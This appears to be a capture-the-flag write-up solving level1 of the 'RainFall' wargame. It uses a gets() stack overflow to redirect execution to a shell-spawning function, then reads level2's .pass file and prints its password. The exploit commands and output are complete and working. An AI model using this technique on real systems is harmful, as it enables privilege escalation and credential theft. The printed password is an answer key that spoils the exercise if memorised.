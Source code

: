 `$  scp -P 4242 level1@192.168.56.103:/home/user/level1/level1 /home/zouz/Desktop/level1`

we can see than main call gets with a buffer and that there is a function run() that open a bash terminal

```
Temporary breakpoint 1, 0x08048483 in main ()
(gdb) p run()
Good... Wait what?
$ whoami
level1

```

open gdb
```
Starting program: /home/user/level1/level1 <<< $(python -c "print 'A' * 76 + 'BBBB'")

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) info reg ebp eip
ebp            0x41414141	0x41414141
eip            0x42424242	0x42424242
```

observing the programm and how it reacts with the script above we see that it's vulnerable because we can overflow the buffer with other values and redirect it at the address we want. The best we can hope is to execute a Shell to take over controle with the rights of the user who owns the file.

`
$ echo I | tr -d [:space:] | od -to2 | head -n1 | awk '{print $2}' | cut -c6
On a Big Endian-System (Solaris on SPARC) => 0
On a little endian system (Linux on x86) => 1
`

0x08048444 is the address of the function run
\x44\x84\x04\x08 is the transcription of that address on a little-endian machine

```
python -c 'print "A" * 76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```
executing in shut the stdin so we have to find a way to keep it open
cat will pump in the output of the python script into an input stream and wait for more inputs until EOF

```
level1@RainFall:~$ (python -c 'print "A"*76+"\x44\x84\x04\x08";' && cat) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

stack overflow !